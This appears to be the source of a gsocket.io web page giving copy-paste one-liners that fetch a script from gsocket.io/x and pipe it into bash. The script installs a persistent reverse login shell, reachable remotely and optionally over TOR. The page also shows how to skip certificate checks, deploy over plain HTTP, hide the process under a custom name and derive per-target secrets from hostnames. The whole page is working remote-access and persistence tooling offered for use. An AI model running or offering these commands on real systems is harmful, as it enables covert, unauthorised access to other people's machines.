 ```yaml
---
layout: default
---
```


<h2 align="center">Index -- Test version</h2>

<p class="panel-note2" markdown="1">Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like.</p>

> _This must be the quickest way to access a system_ -- anonymous

Use either one of these two commands to _install_, _uninstall_, _access_:

<!-- This is obviously the tabs wrapper -->
<div class="tabs-wrapper">
    <!-- And here the tabs container -->
    <div class="tabs">
        <!-- This is the first tab -->
        <div class="tab">
            <!-- "checked" means active tab -->
            <input type="radio" name="css-tabs-install" id="curl-install" class="tab-switch" checked>
            <!-- This is the tab selector -->
            <label for="curl-install" class="tab-label">Curl</label>
            <!-- This is the tab content container -->
            <div class="tab-content">
                <ul>
                    <li><strong>Install</strong></li>
                </ul>
<!--
This is how to reproduce the syntax highlighting with "rouge"
You must respect this weird placement to avoid extra rendered space
See here for more details:
https://jekyllrb.com/docs/liquid/tags/#code-snippet-highlighting
-->
{% highlight shell %}
bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                <ul>
                    <li><strong>Uninstall</strong></li>
                </ul>
{% highlight shell %}
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                <ul>
                    <li><strong>Access</strong></li>
                </ul>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
        <!-- This is the second tab -->
        <div class="tab">
            <input type="radio" name="css-tabs-install" id="wget-install" class="tab-switch">
            <label for="wget-install" class="tab-label">Wget</label>
            <div class="tab-content">
                <ul>
                    <li><strong>Install</strong></li>
                </ul>
{% highlight shell %}
bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                <ul>
                    <li><strong>Uninstall</strong></li>
                </ul>
{% highlight shell %}
GS_UNDO=1 bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                <ul>
                    <li><strong>Access</strong></li>
                </ul>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
    </div>
</div>

<!-- Use either one of these two commands to _uninstall_:

<div class="tabs-wrapper">
    <div class="tabs">
        <div class="tab">
            <input type="radio" name="css-tabs-uninstall" id="curl-uninstall" class="tab-switch" checked>
            <label for="curl-uninstall" class="tab-label">Curl</label>
            <div class="tab-content">
{% highlight shell %}
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-uninstall" id="wget-uninstall" class="tab-switch">
            <label for="wget-uninstall" class="tab-label">Wget</label>
            <div class="tab-content">
{% highlight shell %}
GS_UNDO=1 bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
    </div>
</div> -->

<!-- Use either command to _access_ the remote host:

<div class="tabs-wrapper">
    <div class="tabs">
        <div class="tab">
            <input type="radio" name="css-tabs-access" id="curl-access" class="tab-switch" checked>
            <label for="curl-access" class="tab-label">Curl</label>
            <div class="tab-content">
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-access" id="wget-access" class="tab-switch">
            <label for="wget-access" class="tab-label">Wget</label>
            <div class="tab-content">
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
    </div>
</div> -->

<p class="panel-note2" markdown="1">This is just one of many GSOCKET examples. More on [GitHub]({{site.github.repository_url}}).</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

Ignore SSL / Certificate warnings:

<div class="tabs-wrapper">
    <div class="tabs">
        <div class="tab">
            <input type="radio" name="css-tabs-ignore" id="curl-ignore" class="tab-switch" checked>
            <label for="curl-ignore" class="tab-label">Curl</label>
            <div class="tab-content">
{% highlight shell %}
bash -c "$(curl -fsSLk gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-ignore" id="wget-ignore" class="tab-switch">
            <label for="wget-ignore" class="tab-label">Wget</label>
            <div class="tab-content">
{% highlight shell %}
bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
{% endhighlight %}
            </div>
        </div>
    </div>
</div>

Deploy with a predefined secret:

```shell
X=ExampleSecretChangeMe bash -c "$(curl -fsSL gsocket.io/x)"
```

Deploy with *curl* and fallback to *wget*:

```shell
command -v curl >/dev/null && bash -c "$(curl -fsSL gsocket.io/x)" || bash -c "$(wget --no-verbose -O- gsocket.io/x)"
```

Deploy with a predefined secret. Try *curl* and fallback to *wget*:

```shell
X=ExampleSecretChangeMe && (command -v curl >/dev/null && X=$X bash -c "$(curl -fsSL gsocket.io/x)" || X=$X bash -c "$(wget --no-verbose -O- gsocket.io/x)")
```
  
Deploy from self-extracting shell-script [deploy-all.sh](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh) without fetching any packages and using good old plain HTTP:

```
wget --no-hsts http://nossl.segfault.net/deploy-all.sh && \
bash ./deploy-all.sh
```

Useful environment variables:  

|:---|:---|
|S=|Connect to a system (or use `gs-netcat -s <secret> -il`).|
|X=|Set a predefined secret for the installation (X like in inXstallation).|
|GS_NOINST=1|Only start but without installing (will not survive a reboot).|
|GSOCKET_ARGS=|Use additonal arguments. Most often used to force TOR in combination with S=, e.g. `GSOCKET_ARGS="-T" S=<secret> bash -c "$(curl -fsSLk gsocket.io/x)`.|
|GS_DSTDIR=|Set the installation directory. The default is to pick the most suitable automatically. Use `find . -type d -writable`. |
|GS_URL_BASE=|Use URL for static binaries. The default is https://github.com/hackerschoice/binary/raw/main/gsocket/bin/.|
|GS_OSARCH=|Force architecture. The default is to pick the most suitable automatically.
|GS_DEBUG=1|Verbose output and other debug related settings. Often used together with `GS_DEBUG=1 GS_NOSTART=1 GS_NOINST=1 bash -c "$(curl -fsSL gsocket.io/x)"`.|
|GS_HIDDEN_NAME=|Use a custom hidden process name.|
|TMPDIR=|Use a custom temporary directory. Try TMPDIR=$(pwd)|

If all fails:

Download the static binary from [https://github.com/hackerschoice/binary/tree/main/gsocket/bin](https://github.com/hackerschoice/binary/tree/main/gsocket/bin) (likely [gs-netcat_x86_64-alpine.tar.gz](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz)) and extract and start gs-netcat manually:

```shell
curl -fsSL https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 
```

{:refdef: style="text-align: center;"}
## Advanced Tips & Tricks
{: refdef}

Remembering many secrets from many deployments is cumbersome. It is easier to remember just one MASTER-SEED and derive the SECRET from the target's hostname. The following script generates a secure SECRET based on a single MASTER-SEED and the target's hostname.

```sh
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gssec()
{
    str="$(echo "${GS_SEED:?}$1" | sha512sum | base64 | tr -d -c a-z0-9)"
    str="${str:0:22}"
    echo "DEPLOY: X=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: S=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: gs-netcat -s ${str} -i"
}
# Pick a STRONG master seed:
[[ -z $GS_SEED ]] && GS_SEED=MySuperStrongMasterSeed
```

```sh
# Generate a SECRET based on the SEED and 'alice.com'
$ gssec alice.com # You only need to know "alice.com" to connect.

# Output from above's command:
DEPLOY: X=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: S=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: gs-netcat -s 2m1zidi1zkkmxjjj0z0jlj -i
```

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>
